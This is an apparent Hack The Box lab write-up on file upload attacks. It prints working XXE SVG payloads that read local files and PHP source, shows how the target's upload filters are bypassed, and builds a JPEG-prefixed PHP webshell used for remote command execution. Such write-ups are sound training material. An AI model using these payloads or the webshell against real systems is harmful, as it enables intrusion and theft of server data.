 # Hack The Box File Upload Attacks Writeup

## Limited File Uploads

With SVG images, we can include malicious XML data to leak the source code of the web application, and other internal documents within the server.

Create `payload.svg` file to read `flag.txt`
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<svg>&xxe;</svg>
```

Upload this file and view source to see the flag.

![image](https://github.com/user-attachments/assets/295d2b91-31c4-4ef6-acb9-4df151443e71)

For File Upload exploitation, it may allow us to locate the upload directory, identify allowed extensions, or find the file naming scheme, which may become handy for further exploitation.

Create `xxe.svg` file to get the file directory of uploaded files.
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
Upload this file and inspect to get the base64 string, decode that text to get the file directory.

![image](https://github.com/user-attachments/assets/541b634e-8e32-4116-9497-9fff49ec4af0)

## Skills Assessment - File Upload Attacks

To gain access to the internal workings of the file upload functionality, I first leveraged an XXE (XML External Entity) injection via an uploaded .svg file. The SVG was crafted to read the /etc/hostname file using the php://filter stream wrapper with base64 encoding
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
]>
<svg>&xxe;</svg>
```
![image](https://github.com/user-attachments/assets/3d4e9f39-337c-468d-9a5a-4398074d0038)


Upon uploading this file as `xxe.svg`, the response returned a base64-encoded string. Decoding it revealed the hostname: 

`ng-1280470-fileuploadsasmt-ueyj9-548bf6b74b-kg4j4` — the exact same output captured in the screenshot for verification. With this confirmation in hand, I moved on to targeting more sensitive files.

![image](https://github.com/user-attachments/assets/7ab45482-06e5-4af2-8103-28f04b47f993)

Next, I crafted a second XXE payload in a file named `xxe-for-upload.svg` to read the `upload.php` source code:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/contact/upload.php"> ]>
<svg>&xxe;</svg>
```
Uploading and decoding the output gave insight into how uploaded files are handled on the backend. The PHP script performs several checks: it renames files using the format date('ymd')_<original_filename>, stores them in ./user_feedback_submissions/, and imposes both blacklist and whitelist filters.

```bash
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}
```
It blocks extensions like `.php`, `.phps`, and `.phtml`, and only allows filenames ending in `.jpg`, `.jpeg`, or `.png`, validated through a regex: `^.+\.[a-z]{2,3}g$`. It also validates the MIME type from both `content-type` and `mime_content_type()` as an extra defense.

Knowing this, I crafted a polyglot webshell by prepending JPEG magic bytes (FFD8FFDB) to a basic PHP shell payload (`AAAA <?php echo system($_GET["cmd"]); ?>`) and saved it with the name shell.phar.jpeg. This bypassed both extension and MIME type validations, appearing as a legitimate JPEG while still being interpreted as PHP by the server. Uploading this file worked successfully due to the format and naming convention.

![image](https://github.com/user-attachments/assets/e9f2fa4d-0f34-4554-9b2d-125b6a561d9e)

I changed these highlighted characters manually.

After this I uploaded the file.

![image](https://github.com/user-attachments/assets/046ce304-c4c2-49e0-9f6a-d6c60837aac4)

Today being 2025/04/19, the filename becomes `250419_original_name` the webshell was then accessible at the URL: `/contact/user_feedback_submissions/250419_shell.phar.jpeg`

So, I used Burp Suite to intercept and Visiting that URL with a cmd parameter allowed for remote command execution.

Accessing:
`/contact/user_feedback_submissions/250419_shell.phar.jpeg?cmd=cat+/flag.........txt`
successfully returned the flag contents.

![image](https://github.com/user-attachments/assets/1f7d7f28-343b-412e-9a68-5fd3d2db4a55)
